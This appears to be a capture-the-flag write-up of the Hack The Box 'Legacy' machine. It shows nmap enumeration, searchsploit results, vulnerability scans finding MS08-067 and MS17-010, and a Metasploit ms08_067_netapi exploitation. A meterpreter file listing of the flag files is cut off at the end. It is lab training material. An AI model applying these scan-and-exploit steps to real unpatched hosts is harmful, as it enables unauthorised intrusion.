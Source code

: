 # Summary
### 1. NMAP, Business as Usual
We see the system is a outdated and old version of Windows, Windows XP (2000 LAN Manager)

### 2. Vulnerability Search
We see lots of SMB exploits when doing a SearchSploit search for Windows 2000. Let's enumerate further.

### 3. NMAP Again
We find that the system is vulnerable to `smb-vuln-ms08-067` & `smb-vuln-ms17-010` on SMB, Port 445.

### 4. Metasploit!
We use a metasploit module `exploit/windows/smb/ms08_067_netapi` for `smb-vuln-ms08-067` and it worked! We got into the system.

# Attack
## 1. NMAP, Business as Usual
```
hippoeug@kali:~$ nmap -sC -sV -A -v 10.10.10.4 -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-27 21:57 +08
...
Nmap scan report for 10.10.10.4
Host is up (0.0055s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m50s, median: -5h00m00s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:c9:7c (VMware)                                                                
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|_  HTB<1e>              Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-11-27T12:57:27+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```
Wow, interesting, Windows XP (2000 LAN Manager). Unpatched Windows, hell yeah. Let's see..

## 2. Vulnerability Search
```
hippoeug@kali:~$ searchsploit windows 2000 smb
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows 2000/XP - SMB Authentication Remote Overflow                                                                      | windows/remote/20.txt
Microsoft Windows XP/2000 - 'Mrxsmb.sys' Local Privilege Escalation (MS06-030)                                                      | windows/local/1911.c
Microsoft Windows XP/2000/NT 4.0 - Network Share Provider SMB Request Buffer Overflow (1)                                           | windows/dos/21746.c
Microsoft Windows XP/2000/NT 4.0 - Network Share Provider SMB Request Buffer Overflow (2)                                           | windows/dos/21747.txt
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
Hmm, maybe I need something more direct. Let's scan the ports and see.

## 3. NMAP Again
```
hippoeug@kali:~$ sudo nmap -p 445 --script=vuln 10.10.10.4 -v -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-27 22:48 +08
...
Nmap scan report for 10.10.10.4
Host is up (0.0051s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
|_clamav-exec: ERROR: Script execution failed (use -d to debug)

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```
OOH, it's vulnerable to `smb-vuln-ms08-067`. And good ol' `smb-vuln-ms17-010` eternalblue which I'm not gonna attempt on this poor XP machine.

## 4. Metasploit!
Let's try it with metasploit. Source: http://scx020c07c.blogspot.com/2012/09/exploitation-windows-xp-using.html

```
msfconsole
use exploit/windows/smb/ms08_067_netapi
```
And we're in, time to find the flags.

```
meterpreter > search -f *.txt
Found 26 results...
    c:\Documents and Settings\Administrator\Application Data\Microsoft\Internet Explorer\brndlog.txt (10389 bytes)
    c:\Documents and Settings\Administrator\Desktop\root.txt (32 bytes)
    c:\Documents and Settings\Default User\Application Data\Microsoft\Internet Explorer\brndlog.txt (141 bytes)
    c:\Documents and Settings\john\Application Data\Microsoft\Internet Explorer\brndlog.txt (10380 bytes)
    c:\Documents and Settings\john\Desktop\user.txt (32 bytes)
    c:\Program Files\Movie Maker\Shared\Empty.txt (18 bytes)
    c:\Program Files\Movie Maker\Shared\Profiles\Blank.txt (21 bytes)
    c:\Program Files\Outlook Express\msoe.txt (133 bytes)
    c:\System Volume Information\_restore{8ACB70A4-C5EE-460F-94BB-8F26DD405EFE}\drivetable.txt (130 bytes)
    c:\System Volume Information\_restore{8ACB70A4-C5EE-460F-94BB-8F26DD405EFE}\RP1\snapshot\domain.txt (26 bytes)
    c:\WINDOWS\OEWABLog.txt (1178 bytes)
    c:\WINDOWS\SchedLgU.Txt (1308 byte
```
